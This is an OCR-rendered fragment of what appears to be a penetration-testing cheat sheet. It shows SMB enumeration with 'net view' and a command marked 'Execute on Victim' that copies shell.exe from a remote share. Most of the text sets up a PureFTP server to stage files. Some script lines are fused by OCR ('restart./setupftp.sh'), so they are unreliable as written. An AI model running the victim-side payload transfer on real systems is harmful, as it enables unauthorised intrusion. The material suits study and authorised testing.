 ```
net view \\\\192.168.0.1

```

Copy Files (Execute on Victim)

```
copy \\\\192.168.0.1\\server_name\\shell.exe shell.exe

```

## PureFTP

PureFTP

Install

```
apt-get update && apt-get install pure-ftpd

```

Create [setupftp.sh](http://setupftp.sh/) Execute The Script

```
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd myftpuser -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s /etc/pure-ftpd/conf/PureDB /etc/pure-ftpd/auth/40PureDBexit
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart./setupftp.sh

```

Get Service Ready

Reset Password

```
pure-pw passwd offsec -f /etc/pure-ftpd/pureftpd.passwd

```

Commit Changes

```
pure-pw mkdb

```

Restart Service

```
/etc/init.d/pure-ftpd restart

```
